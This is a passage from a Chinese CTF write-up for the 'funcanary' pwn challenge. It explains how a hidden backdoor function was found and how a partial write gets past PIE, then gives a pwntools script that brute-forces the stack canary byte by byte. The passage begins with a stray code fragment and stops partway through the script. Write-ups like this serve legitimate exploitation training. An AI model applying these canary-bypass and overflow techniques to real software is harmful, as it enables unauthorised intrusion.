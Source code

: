 ```python




p.interactive()
```
## funcanary（fork爆canary与partial write绕PIE）
#### 静态分析
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685457528760-5afab287-cd24-48fb-8df0-edf4a937da2a.png#averageHue=%23090605&clientId=ud8d6c821-098d-4&from=paste&height=189&id=uc69ed217&originHeight=312&originWidth=1017&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=91553&status=done&style=none&taskId=ua5952529-7549-467e-8a85-5e245e9bbc0&title=&width=616.3636007387796)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454166108-7ff83e3f-497f-47d9-b6ed-3b58497f9bd5.png#averageHue=%23030201&clientId=ud8d6c821-098d-4&from=paste&height=411&id=u99b1ca38&originHeight=678&originWidth=1079&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=59315&status=done&style=none&taskId=u3e960d71-3489-452f-944e-c14254b3a9c&title=&width=653.9393561427171)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454183627-e6ac812e-c7d1-421f-a7fa-73f83421f86b.png#averageHue=%23040302&clientId=ud8d6c821-098d-4&from=paste&height=208&id=u309ff6d8&originHeight=343&originWidth=1074&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=40322&status=done&style=none&taskId=u1ad53f48-79dc-478b-8028-b28ba88e434&title=&width=650.9090532875608)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454225862-aab2ce0f-bf52-4a45-b0ab-a8360dbbe134.png#averageHue=%237e7d7d&clientId=ud8d6c821-098d-4&from=paste&height=581&id=u201462eb&originHeight=958&originWidth=1248&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=85822&status=done&style=none&taskId=u84b779cd-ab4f-49d8-a3fd-4618f936276&title=&width=756.3635926469981)<br />很够的一点：存在一个IDA无法识别的后门函数<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454362493-c2d0e27f-87ba-4157-a99b-0dca8d250988.png#averageHue=%23080202&clientId=ud8d6c821-098d-4&from=paste&height=281&id=u882555e6&originHeight=464&originWidth=1619&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=64498&status=done&style=none&taskId=u7e404163-5e56-4325-81ae-d00df19c64d&title=&width=981.2120644995912)
> 找到这个后门的方法：
> shift + F2 查找 string
> 发现敏感字符串
> Alt + T 查找所有引用的字符串
> 最后就找到了这个后门函数

因为开启了PIE，所以要用这个后门，还得绕过PIE的保护。
> partial write就是利用了PIE技术的缺陷。我们知道，内存是以页载入机制，如果开启PIE保护的话，只能影响到单个内存页，一个内存页大小为0x1000，那么就意味着不管地址怎么变，某一条指令的后**三位十六进制数的地址是始终不变的**。因此我们可以通过覆盖地址的后几位来可以控制程序的流程

注意：只有后三位不变！！！<br />![Snipaste_2023-05-30_22-30-32.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685458799001-313f2497-14a6-42ed-9134-ea5503c057d1.png#averageHue=%23050403&clientId=u0082e65c-a6da-4&from=paste&height=244&id=ua87dcb3b&originHeight=402&originWidth=1940&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=141466&status=done&style=none&taskId=u622db2c6-a497-4e81-b35a-daac84369d9&title=&width=1175.757507800622)
#### 最终思路
想要利用栈溢出，必须绕过PIE和CANARY保护，由于此处是read可以不接受换行符，我们可以用pwntools中的p.send然后爆破canary，爆破完canary之后，由于overflow函数的返回地址是一个TEXT段上的地址(rebase(0x1329))，并且发现很狗的是程序中还隐藏了一个IDA识别不出来的后门函数。
#### 脚本一：爆破第4位
```c
from pwn import *

elfname = './funcanary'
#libcname = './libc.so.6'

p = process(elfname)

elf = ELF(elfname)

context.log_level = 'debug'
context.arch = 'amd64'

r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)

canary = '\x00'

for j in  range(7):
    for i in range(0x100):
        payload = 0x68*'a' + canary + chr(i)
        sa(b"welcome\n",payload)
        a = p.recvline()
        if b'have fun' in a:
```